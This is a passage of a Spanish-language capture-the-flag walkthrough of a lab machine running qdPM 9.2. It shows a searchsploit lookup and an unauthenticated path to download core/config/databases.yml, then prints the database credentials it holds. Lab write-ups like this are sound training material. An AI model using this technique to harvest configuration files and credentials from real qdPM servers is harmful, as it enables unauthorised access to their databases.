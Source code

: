Y vemos que esta usando `qdPM 9.2` nos estan dando la version

Aqui nos explican en que consiste <https://qdpm.net/> es un herramienta para gestionar tus proyectos

Vamos a ver si la version `qdPM 9.2` tiene vulnerabilidades

```bash
❯ searchsploit qdPM 9.2
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                                  | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                                | php/webapps/50176.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vemos un `Password Exposure (Unauthenticated)` vamos a ver en que consiste

Si examinas el archivo nos esta dando esta informacion 

```bash
❯ searchsploit -x php/webapps/50176.txt

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```

Nos esta diciendo que que la contraseña para la base de datos esta en un archivo yml vamos a ver que pasa

Si pones la ruta te descarga un archivo `.yml`

![](/assets/images/vh-writeup-ica1/Web2.png)

```bash
core/config/databases.yml
```

Y tenemos credenciales

```bash
❯ ls
 databases.yml
❯ catnp databases.yml
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: databases.yml
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │   
   2   │ all:
   3   │   doctrine:
   4   │     class: sfDoctrineDatabase
   5   │     param:
   6   │       dsn: 'mysql:dbname=qdpm;host=localhost'
   7   │       profiler: false
   8   │       username: qdpmadmin
   9   │       password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
  10   │       attributes:
```